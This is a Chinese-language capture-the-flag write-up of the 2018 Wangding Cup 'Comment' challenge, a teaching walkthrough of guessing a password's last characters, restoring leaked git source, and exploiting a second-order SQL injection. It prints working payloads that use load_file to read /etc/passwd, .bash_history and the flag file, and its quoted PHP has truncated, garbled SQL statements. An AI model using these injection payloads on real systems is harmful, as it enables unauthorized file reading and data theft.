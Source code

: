 # \[网鼎杯 2018]Comment

## \[网鼎杯 2018]Comment

## 考点

* git泄露与文件恢复
* 二次注入
* 代码审计
* SQL注入的load\_file函数

## wp

一开始没什么发现，注意到在login.php的登录框，似乎给出了账号密码，直接输入会提示用户名或密码错误，那可以尝试爆破一下密码后三位，最后为 zhangwei666，成功登陆。

```
zhangwei
zhangwei***
```

进行目录扫描发现git泄露，githack下载源码，发现源码不全，对其进行恢复

```
git log --reflog
git reset --hard e5b2a2443c
```

恢复后代码如下

```php
<?php

include "mysql.php";
session_start();

if($_SESSION['login'] != 'yes'){
    header("Location: ./login.php");
    die();
}

if(isset($_GET['do'])){
switch ($_GET['do'])
{
case 'write':
    $category = addslashes($_POST['category']);
    $title = addslashes($_POST['title']);
    $content = addslashes($_POST['content']);
    $sql = "insert into board
            set category = '$category',
                title = '$title',
                content = '$content'";
    $result = mysql_query($sql);
    header("Location: ./index.php");
    break;

case 'comment':
    $bo_id = addslashes($_POST['bo_id']);
    $sql = "select category from board where ";
    $result = mysql_query($sql);
    $num = mysql_num_rows($result);
    if($num>0){
    $category = mysql_fetch_array($result)['category'];
    $content = addslashes($_POST['content']);
    $sql = "insert into comment
            set category = '$category',
                content = '$content',
                bo_";
    $result = mysql_query($sql);
    }
    header("Location: ./comment.php?id=$bo_id");
    break;
    
default:
    header("Location: ./index.php");
}
}else{
    header("Location: ./index.php");
}
?>
```

可以看到源码的SQL语句，在 write 处，对所有输入进行 addslashes() 转义，但是在 comment 处，那个查询的 category 并未转义，即 category 就是一个二次注入的地方。<mark style="background-color:orange;">addslashes() 转义的字符有 单双引号，反斜杠和NULL</mark>

write时，在 category 输入 `',content=user(),/*`\
comment时，在 content 输入 `*/#`\
这样拼接之后的语句为

```
发帖
insert into board
            set category = '\',content=user(),/* ',
                title = '123',
                content = '123';

留言
select category from board where ;
category为',content=user(),/* 
嵌入语句
insert into comment
            set category = '',content=user(),/*',
                content = '*/#',
                bo_;
```

输入单引号闭合category后的单引号，然后在content插入payload，采用 `/**/` 进行多行注释，将 `',content = '` 注释，再使用`＃`单行注释后面的内容，这样原本content那行就被完全注释。

在数据库里面看了一圈没有发现，尝试进行文件读取，发现读取不了了/proc/self/cmdline和/proc/self/environ，那就读取.bash\_history

```
',content=(select load_file("/etc/passwd")),/*
',content=(select load_file("/home/www/.bash_history")),/*
```

得到的结果如下，做的事情就是先在/tmp下解压html压缩包，然后删除html压缩包，将html拷贝到/var/www/目录下，进入/var/www/html目录之下，删除 .DS\_Store

试了一下发现不存在flag.php，那就把下面的文件都试一下

```
cd /tmp/ unzip html.zip rm -f html.zip cp -r html /var/www/ cd /var/www/html/ rm -f .DS_Store service apache2 start
```

最终在 /tmp/html 下发现 .DS\_Store，由于直接读取不能全部输出，就先转换为 hex 编码再输出

```
',content=(select hex(load_file("/tmp/html/.DS_Store"))),/*
```

这样得到了一串十六进制字符串，将其中的00替换为空，然后解码，可以看到flag文件为flag\_8946e1ff1ee3e40f.php，读取即可

```
',content=(select hex(load_file("/var/www/html/flag_8946e1ff1ee3e40f.php"))),/*
```
